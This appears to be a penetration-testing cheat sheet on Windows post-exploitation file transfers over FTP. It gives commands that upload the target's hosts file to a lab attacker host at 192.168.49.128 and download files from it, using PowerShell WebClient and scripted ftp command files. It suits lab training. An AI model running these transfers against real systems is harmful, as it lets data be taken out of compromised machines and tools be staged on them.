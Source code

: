 
```bash
sudo pip3 install pyftpdlib
```

```bash
sudo python3 -m pyftpdlib --port 21
```
#### Uploading Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Downloading Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
#### Create a Command File for the FTP Client and Download the Target File

```cmd-session
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

```ftp
open 192.168.49.128
Log in with USER and PASS first.
USER anonymous

GET file.txt
bye
```

```cmd-session
more file.txt
This is a test file
```

#### Create a Command File for the FTP Client to Upload a File

```cmd-session
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

```ftp
open 192.168.49.128
USER anonymous
PUT c:\windows\system32\drivers\etc\hosts
bye
```
# Tags
> #Post-Exploitation #Windows-Post-Exploitation #File-Transfers #FTP-File-Transfers